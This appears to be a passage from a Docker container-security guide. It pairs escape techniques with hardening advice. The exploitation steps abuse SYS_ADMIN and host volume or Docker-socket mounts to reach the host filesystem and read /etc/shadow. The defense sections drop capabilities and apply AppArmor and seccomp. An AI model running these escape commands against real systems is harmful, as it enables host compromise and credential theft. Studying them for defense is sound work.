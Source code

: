 #### **Exploitation Steps**
```bash
# 1. Identify vulnerable container
docker ps --format "table {{.Names}}\t{{.Status}}\t{{.Image}}"

# 2. Gain shell access
docker exec -it container_name /bin/bash

# 3. Check capabilities
cat /proc/1/status | grep CapEff

# 4. Exploit SYS_ADMIN capability
mount /dev/sda1 /mnt/host
cd /mnt/host

# 5. Access host resources
ls -la /root/
cat /etc/shadow
```

#### **Defense & Patching**
```bash
# Remove dangerous capabilities
docker run -d --name secure-app \
  --cap-drop SYS_ADMIN \
  --cap-drop SYS_MODULE \
  --cap-drop SYS_RAWIO \
  myapp:latest

# Use security profiles
docker run -d --name secure-app \
  --security-opt apparmor=docker-default \
  --security-opt seccomp=default \
  myapp:latest

# Run as non-root user
docker run -d --name secure-app \
  --user 1000:1000 \
  myapp:latest
```

### **2. Container Escape via Mount Points**

#### **Attack Vector: Host Volume Mounts**
```bash
# Vulnerable container with host mount
docker run -d --name vulnerable-app \
  -v /:/host \
  -v /var/run/docker.sock:/var/run/docker.sock \
  myapp:latest

# Attacker gains shell and escapes
docker exec -it vulnerable-app /bin/bash

# Access host filesystem
cd /host
ls -la /root/
cat /etc/shadow

# Access Docker socket
cd /host/var/run
ls -la docker.sock

# Create new privileged container
```